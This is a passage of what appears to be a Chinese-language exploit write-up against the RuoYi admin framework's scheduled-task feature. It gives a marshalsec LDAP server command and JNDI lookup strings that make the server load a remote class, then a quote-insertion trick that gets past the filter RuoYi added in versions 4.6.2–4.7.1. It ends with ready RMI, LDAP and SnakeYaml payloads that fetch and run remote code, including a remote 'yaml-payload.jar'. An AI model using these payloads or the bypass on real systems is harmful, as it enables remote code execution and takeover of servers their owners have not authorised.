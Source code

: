 启动  
ldap  
服务  
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://192.168.10.129:6000/#Calc“ 8888
```  
  
  
添加一个定时任务通过  
lookup  
函数加载远程类  
  
目标字符串：  
****  
```
javax.naming.InitialContext.lookup(‘ldap://192.168.10.129:8888/#Calc’)
```  
  
cron表达式：  
**0/10 **** ?**  
  
点击执行，弹出计算器，测试成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGz7070YlWaePEBXHWRrpMib066KWAIwn3Dmv6bqEwaxSWfQF9sFv8D5g/640?wx_fmt=png&from=appmsg "")  
### 高版本绕过策略（V-4.6.2-V-4.7.1）  
  
在V-4.6.2-V-4.7.1版本中RuoYi添加了对  
ldap  
和  
rmi  
以及  
http  
字符串的过滤  
```
ruoyi-quartz\src\main\java\com\ruoyi\quartz\controller\SysJobController.java
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGlFRXU6P0Zib2Lvd21E46nWZMjaDRmTjsIkUKpA6aEgaeDZDXd3LFd4A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGagcsShtibiazHCAxOE6QAiblYro5P8zNup65Qgmzia0zPZqHeEOUOU7yIw/640?wx_fmt=png&from=appmsg "")  
  
但是可通过添加”‘“的方式来绕过。  
  
例如http就可以改为ht’tp，rmi可以改为r’mi，ldap改为l’dap，以此来绕过字符串检测  
  
没添加”‘“绕过  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGlkB4C76D5Cry8jGUYzlHHgWaGODUKK2n7eoPic7m40aqYGN6UlBmsyg/640?wx_fmt=png&from=appmsg "")  
  
添加”‘“绕过，只需要在协议字符串中间添加一个“’”即可，那么所有目标调用字符串可更改为  
```
rmi:org.springframework.jndi.JndiLocatorDelegate.lookup(‘r’mi://192.168.10.129:8888/Calc’)
ldap:javax.naming.InitialContext.lookup(‘ld’ap://192.168.10.129:8888/#Calc’)
SnakeYaml:org.yaml.snakeyaml.Yaml.load(‘!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [“ht’tp://192.168.31.246:8000/yaml-payload.jar”]]]]’)
```  
  